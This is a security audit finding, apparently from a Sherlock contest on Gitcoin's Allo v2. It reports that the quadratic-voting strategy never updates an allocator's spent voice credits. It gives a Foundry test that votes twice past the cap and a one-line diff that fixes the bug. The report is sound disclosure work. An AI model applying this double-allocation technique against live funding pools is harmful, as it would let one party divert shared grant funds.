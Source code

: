 Faithful Carrot Okapi

high

# Double voting issue in QV Strategy
## Summary
In `_qv_allocate` function of `QVBaseStrategy` contract `allocator.voiceCredits` are not being incremented after allocator uses some of his `voiceCredits` to vote a recipient. Using this a malicious allocator can assign all the `poolAmount` to a single recipient.


## Vulnerability Detail

1. In the `QVSimpleStrategy`, allocators are intended to be limited to using a maximum of `maxVoiceCreditsPerAllocator` voice credits.
2. This restriction is implemented in the `_allocate` function with the following line:
      ```solidity
       if (!_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)) revert INVALID();
      ```
3. However `allocator.voiceCredits` value is not updated after the allocator uses some credits to vote for a recipient.


## Impact

So a malicious allocator can use an unlimited amount of `voiceCredits` to allocate the entire `poolAmount` to a single recipient.

## Proof of concept
Include this test in `QVSimpleStrategy.t.sol`.
```solidity
 function test_double_voting_issue() public {
        address recipientId = __register_accept_recipient();
        address allocator = randomAddress();

        vm.startPrank(pool_manager2());
        qvSimpleStrategy().addAllocator(allocator);

        vm.warp(allocationStartTime + 10);

        uint MAX_ALLOCATIONS = qvSimpleStrategy().maxVoiceCreditsPerAllocator();

        bytes memory allocateData = __generateAllocation(recipientId, MAX_ALLOCATIONS);

        uint256 usedVoiceCreditsBefore = qvSimpleStrategy().allocators(allocator);
        assertEq(usedVoiceCreditsBefore, 0);

        vm.startPrank(address(allo()));
                // user was able to allocate maxVoiceCreditsPerAllocator twice
        qvSimpleStrategy().allocate(allocateData, allocator);
        qvSimpleStrategy().allocate(allocateData, allocator);

        uint256 usedVoiceCreditsAfter = qvSimpleStrategy().allocators(allocator);
                // usedVoiceCredits is same before and after calling allocate, not incremented
        assertEq(usedVoiceCreditsAfter, usedVoiceCreditsBefore);
    }
```


## Code Snippet

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121)

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L506-L534](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L506-L534)

## Tool used
Manual Review

## Recommendation
```diff
diff --git a/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol b/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol
index 24a99d4..599cebd 100644
--- a/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol
+++ b/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol
@@ -528,6 +528,7 @@ abstract contract QVBaseStrategy is BaseStrategy {
 
         _allocator.voiceCreditsCastToRecipient[_recipientId] += totalCredits;
         _allocator.votesCastToRecipient[_recipientId] += voteResult;
+        _allocator.voiceCredits +=  _voiceCreditsToAllocate;
 
         // emit the event with the vote results
         emit Allocated(_recipientId, voteResult, _sender);
```

